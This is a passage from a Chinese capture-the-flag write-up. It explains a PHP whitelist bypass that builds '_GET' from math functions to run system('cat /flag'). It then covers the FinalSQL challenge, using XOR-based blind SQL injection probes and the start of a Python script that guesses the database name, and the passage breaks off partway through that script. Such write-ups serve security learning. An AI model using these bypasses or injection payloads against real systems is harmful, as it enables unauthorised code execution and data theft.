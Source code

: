 由于参数只检查c，所以a和b可以随便操作，接下来问题的关键就是，如何绕过c的检查。

白名单用来检测c中出现的变量名，因此a，b不能出现，但是可以用白名单中的值，比如abs，cos。GET中括号和和GET本身都不能出现，中括号可以用{}替代，因此这道题的核心就是构造_GET。构造如下：
`base_convert(37907361743,10,36)(dechex(1598506324))`

```
base_convert(37907361743,10,36)=>"hex2bin"，dechex(1598506324)=>"5f474554",hex2bin("5f474554")=>_GET
```

payload:
`c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));$$pi{pi}($$pi{abs})&pi=system&abs=cat /flag`

## [极客大挑战 2019]FinalSQL

`异或注入`

正常情况下`id=1`

![image-20231229115035475](./img/14-1.png)

因为`1^0`为`1`

和`id`为`1`时相同

可以根据这个特性，判断后面的注入语句是否正确。经过测试发现mid、union被过滤了，可以考虑这个组合拳：

> ascii(x) ：只取x中第一位的ascii值，这也可以用ord()函数代替。

> substr(string string, int a, int b)：把string从a开始进行截取，截取长度为b。

判断当前数据库名长度，等于4时返回“ERROR”，证明是1^1，语句为真：

> 1^(length(database())=4)

判断数据库第一位的ascii是否大于7，返回“ERROR”，证明是1^1，语句为真：

> 1^(ord(substr(database(),1,1))>7)

判断数据库第一位的ascii是否大于199，返回“NO! Not this! Click others”，证明是1^0，语句为假：

> 1^(ord(substr(database(),1,1))>199)

```python
import requests
# from urllib.parse import urljoin

url = 'http://6db75235-0289-49f2-b368-e488330f1b06.node4.buuoj.cn:81/search.php?id='

def judge_database():
    """ 获取数据库长度 """
    for i in range(20):
        tmp_url = f"{url}0^(length(database())={i})"
        resp = requests.get(tmp_url, timeout=8)
        if "NO! Not this! Click others~~~" in resp.text:
            print(f"Database length is: {i}")
            break
        print(f"try 0^(length(database())={i})")
        
        
def get_database():
    """ 获取数据库名 """
    database = ''
```